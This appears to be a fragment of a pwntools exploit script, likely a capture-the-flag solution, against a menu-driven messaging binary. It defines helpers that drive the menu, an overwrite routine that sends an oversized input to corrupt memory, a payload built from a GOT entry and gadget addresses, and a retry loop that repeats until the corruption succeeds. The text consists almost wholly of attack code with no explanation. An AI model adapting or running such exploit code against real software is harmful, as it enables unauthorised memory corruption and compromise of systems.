 ```python
	gdb.attach(proc.pid+1, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

PROMPT = 'off\n==================\n'
def create(name):
	r.sendlineafter(PROMPT, '0')
	sleep(0.1)
	r.sendlineafter(' id =\n', name)

def login(name):
	r.sendlineafter(PROMPT, '1')
	sleep(0.1)
	r.sendlineafter(' id =\n', name)

def send(data, to):
	r.sendlineafter(PROMPT, '2')
	r.sendlineafter('ge =\n', data)
	r.sendlineafter('om =\n', to)

def inb(idx):
	r.sendlineafter(PROMPT, '3')
	sleep(0.1)
	r.sendlineafter('ex =\n', str(idx))

def d(idx):
	r.sendlineafter(PROMPT, '4')
	sleep(0.1)
	r.sendlineafter('ex =\n', str(idx))


def overwrite(payload):
	size = 0x410 + len(payload)
	create('a')
	login('a')
	d(0)
	send(payload, 'a')
	sleep(0.1)
	inb(0)
	r.sendline('2\n!\na\n2\n{}'.format('1'*size))
	r.recvuntil('om =\n')
	r.recvuntil('om =\n')
	sleep(0.01)
	r.sendline('m')
	inb(1)
	ret = r.recvuntil('6. turn')
	if '!' in ret:
		return False
	login('m')
	return True

str_m = 0x405833
rdi = 0x00405593
initial = flat(0, elf.got.read, 0x8, str_m)
while True:
	r = start()
	try:
		if overwrite(initial) == True:
			break
		r.close()
	except:
		r.close()

```